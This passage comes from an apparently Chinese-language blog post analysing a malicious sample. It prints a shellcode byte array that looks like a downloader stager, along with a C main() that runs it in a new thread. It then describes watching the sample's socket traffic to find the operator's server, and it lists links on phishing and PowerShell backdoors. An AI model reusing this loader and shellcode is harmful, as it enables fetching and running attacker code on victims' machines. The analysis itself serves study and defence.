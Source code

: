 ```
"\x74\x61\xff\xd5\x85\xc0\x74\x0a"
"\xff\x4e\x08\x75\xec\xe8\x3f\x00"
"\x00\x00\x6a\x00\x6a\x04\x56\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\xe9\x8b\x36\x6a\x40"
"\x68\x00\x10\x00\x00\x56\x6a\x00"
"\x68\x58\xa4\x53\xe5\xff\xd5\x93"
"\x53\x6a\x00\x56\x53\x57\x68\x02"
"\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\xc3\x01\xc3\x29\xc6\x75\xe9"
"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00"
"\x53\xff\xd5 ";

int main(int argc, char* argv[])
{
    //创建ShellCode的线程
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(int)&shellCode, NULL, 0, NULL);

    //等待线程的创建完成
    WaitForSingleObject(hThread, INFINITE);

    return 0;
}
```
然后这段代码肯定要与作者服务器进行通信从而得到恶意的代码，所以我们通过`病毒分析工具MyMonitor`工具来分析它的Socket通信。
将上面编译好的程序拖到分析工具里面，可以看到下面的结果：
{% qnimg Socket-communication.png title:test alt:来自七牛云的图片 'class:class1 class2' %}，这样我们就得到了作者的服务器ip和端口，可以发现，如果单纯的下载代码肯定不行，肯定还有一些东西需要从主机上传到作者的服务器，在这里就不去深究了，毕竟自己功底不够，耗时不讨好。所以就到此为止吧，下一步我将好好学习渗透方面的知识，只是为了更好的保护自己的信息安全。想起别人说的一句话：
# 冷兵器的时代已经过去，在新的时代我们应该拿起枪和炮，从而才能更好的生存。


### 参考文章
* [使用powershell Client进行有效钓鱼](http://www.evil0x.com/posts/9472.html)
* [JavaScript Phishing](http://drops.wooyun.org/tips/12386)
* [Powershell之MOF后门](http://drops.wooyun.org/tips/12354)
* [执行powerhsell脚本的方法](http://www.moonsec.com/post-567.html)
* [针对中国政府机构的准APT攻击样本Power Shell的ShellCode分析](http://blog.csdn.net/qq1084283172/article/details/45690529)
* [浅谈高级组合技打造“完美” 捆绑后门](https://www.91ri.org/15506.html)
